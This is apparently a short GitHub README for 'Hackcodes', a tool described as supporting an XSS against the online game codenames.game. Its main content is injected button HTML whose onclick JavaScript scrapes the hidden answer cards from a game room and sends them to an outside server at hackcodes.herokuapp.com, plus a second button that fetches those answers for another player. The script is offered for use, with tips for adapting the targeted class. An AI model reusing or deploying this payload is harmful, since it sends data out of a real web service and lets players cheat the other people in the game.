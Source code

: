 # Hackcodes

This is a website created to support an XSS for https://codenames.game/.

## Script

`<button onclick="javascript:((function() {var a = document.querySelectorAll('.blue');var arr = [];for(b of a) { if(b.classList.contains('cardImage')) {var c = b.nextElementSibling;arr.push(c.innerText);};};window.open(`https:\/\/hackcodes.herokuapp.com/codenamesadd/${window.location.pathname.replace('/room/', '')}?answers=${arr.join(',')}`,'_blank');})())">Create Object (HOST)</button>
<button onclick="javascript:((function() {window.open(`https:\/\/hackcodes.herokuapp.com/codenames/${window.location.pathname.replace('/room/', '')}`,'_blank');})())">Get answers (OPERADOR)</button>`

Please be aware that you can change the class from .blue to .red or anything if needed.

-

zF4ke#8556
